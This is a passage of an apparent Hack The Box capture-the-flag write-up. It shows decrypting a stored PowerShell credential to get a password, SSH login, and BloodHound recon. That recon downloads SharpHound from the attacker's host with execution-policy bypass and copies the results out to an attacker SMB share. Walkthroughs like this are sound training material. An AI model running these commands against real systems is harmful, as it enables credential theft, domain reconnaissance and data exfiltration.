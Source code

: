 We can easily decrypt this using powershell:

```
c:\Users\nico\Desktop>powershell -c "$c = Import-CliXml -Path cred.xml; $c.GetNetworkCredential() | fl"
powershell -c "$c = Import-CliXml -Path cred.xml; $c.GetNetworkCredential() | fl"


UserName       : Tom
Password       : 1ts-mag1c!!!
SecurePassword : System.Security.SecureString
Domain         : HTB
```

Now we can login with ssh as tom:

```bash
$ ssh tom@10.10.10.77
```

### Using Bloodhound to privesc

In tom desktop there's a directory called `AD Audit` with a directory called `BloodHound` and a `note.txt`:

```
Findings:                                                                                                                       

Surprisingly no AD attack paths from user to Domain Admin (using default shortest path query).                                  

Maybe we should re-run Cypher query against other groups we've created.
```

`\BloodHound`:

```
05/29/2018  07:57 PM    <DIR>          Ingestors
10/30/2017  10:15 PM           769,587 PowerView.ps1                          
```

```
powershell "IEX(New-Object System.Net.Webclient).DownloadFile('http://10.10.14.17/SharpHound.ps1','SharpHound.ps1')"
powershell -exec bypass
import-module ./sharphound.ps1
Invoke-Bloodhound
```

I'll transfer the .zip

```
$ sudo python3 /opt/impacket/examples/smbserver.py serv `pwd`
```

```
net use z: \\10.10.14.17\serv 
copy 20201214150905_BloodHound.zip z:
```

